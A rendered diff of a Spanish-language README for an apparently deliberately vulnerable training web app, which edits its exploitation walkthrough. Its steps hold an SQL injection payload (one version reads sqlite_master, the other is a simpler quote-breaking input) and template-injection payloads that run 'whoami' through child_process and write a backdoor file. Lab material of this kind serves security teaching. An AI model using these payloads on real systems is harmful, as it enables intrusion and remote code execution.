

Before and after one commit to RHV044/insecure-docs-app, a Markdown page: README.md, 2 parts joined by grey strips. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -86,7 +86,7 @@ http://localhost:3000
 2. Usar usuario básico: `user` / `user123`
 3. Interceptar la petición de login y modificar el username:
    ```
-   Username: admin' OR '1'='1' UNION SELECT * FROM sqlite_master--
+   Username: user'asd'
    ```
 4. **Resultado**: Error SQL que expone:
    - Ruta de la base de datos: `backend/files/db/g3.db`
@@ -148,15 +148,11 @@ http://localhost:3000
 **Procedimiento**:
 1. Con privilegios de admin, ir a **"Ver documentos"**
 2. Seleccionar cualquier archivo PDF
-3. En el sistema de comentarios, usar referencias con código malicioso:
-   ```javascript
-   Hola {{uploader}}, info del servidor: {{process.platform}} {{process.version}}
-   ```
-4. **Escalación a RCE completo**:
+3. **Escalación a RCE completo**:
    ```javascript
    {{require('child_process').execSync('whoami').toString()}}
    ```
-5. **Crear backdoor**:
+4. **Crear backdoor**:
    ```javascript
    {{require('fs').writeFileSync('backdoor.js', 'console.log("Server compromised!")')}}
    ```
````
